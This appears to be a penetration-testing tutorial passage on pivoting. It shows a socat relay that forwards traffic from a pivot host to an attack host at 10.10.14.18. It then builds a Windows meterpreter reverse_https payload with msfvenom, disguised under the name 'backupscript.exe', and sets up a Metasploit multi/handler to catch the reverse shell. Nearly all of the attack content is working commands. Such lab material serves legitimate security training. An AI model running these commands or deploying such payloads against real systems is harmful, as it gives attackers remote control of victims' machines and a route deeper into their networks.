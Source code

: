 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port

#### Starting Socat Listener

On pivot,
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18).

#### Creating the Windows Payload

```shell-session

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```


#### Starting MSF Console

```shell-session
sudo msfconsole
```

#### Configuring & Starting the multi/handler

```shell-session
use exploit/multi/handler
```

```shell-session
set payload windows/x64/meterpreter/reverse_https
```
```shell-session
set lhost 0.0.0.0
```
```shell-session
set lport 80
```
```shell-session
run
```


